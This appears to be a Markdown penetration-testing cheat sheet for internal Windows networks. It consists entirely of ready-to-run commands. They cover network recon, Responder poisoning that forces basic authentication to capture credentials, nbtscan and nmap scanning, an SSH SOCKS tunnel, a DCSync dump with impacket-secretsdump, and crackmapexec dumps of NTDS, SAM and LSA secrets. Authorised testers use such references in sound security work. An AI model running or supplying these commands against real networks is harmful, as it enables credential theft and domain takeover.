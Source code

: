 # Network Information

## Passive

arp -a

ifconfig / ipconfig

tcpdump -i eth0

netdiscover

## Responder

### Analyze Mode
responder -I eth0 -A

responder -I eth0 -wFP

### Force Basic Auth
responder -I eth0 -wbFP

## Scanning

nbtscan 192.168.1.1/24

nbtscan-unixwiz 192.168.1.1/24

nmap -sSV --open -iL ips.txt -oA output


# SSH Tunneling

### Socks proxy
ssh -D 8080 root@127.0.0.1

# Dumping

## DCSYNC

impacket-secretsdump DOMAIN/user:password@IP -history -outputfile output

crackmapexec smb <ip> -u user -p password --ntds

## Other

crackmapexec smb <ip> -u user -p password --sam

crackmapexec smb <ip> -u user -p password --lsa
